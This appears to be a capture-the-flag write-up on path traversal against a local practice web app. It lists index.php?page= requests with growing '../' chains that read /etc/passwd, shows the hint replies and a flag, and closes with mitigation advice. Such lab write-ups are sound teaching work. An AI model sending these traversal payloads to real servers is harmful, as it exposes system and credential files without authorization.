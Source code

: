 ## [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

Path Traversal occurs when an attacker can manipulate file paths in an application (e.g., through query parameters or user input) to access files or directories outside of the intended directory structure.

The page parameter could be vulnerable to path traversal so we test it and we get a hint that we're on the right track:

http://localhost:8080/index.php?page=../etc/passwd -> `Wtf ?`
http://localhost:8080/index.php?page=../../etc/passwd -> `Wrong..`
http://localhost:8080/index.php?page=../../../etc/passwd -> `Nope..`
http://localhost:8080/index.php?page=../../../../etc/passwd -> `Almost.`
http://localhost:8080/index.php?page=../../../../../etc/passwd -> `Still nope..`
http://localhost:8080/index.php?page=../../../../../../etc/passwd -> `Nope..`
http://localhost:8080/index.php?page=../../../../../../../etc/passwd -> `Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

We could also try absolute paths such as http://localhost:8080/index.php?page=/etc/passwd, but they all return only `Wtf ?`.

Path Traversal is mitigated by:

- Strict Input Validation: only allow expected file paths (whitelist), or reject any sequence containing `..`, `/` or other traversal pattern
- Restricting file access: the server program should only have access to a predefined set of directories
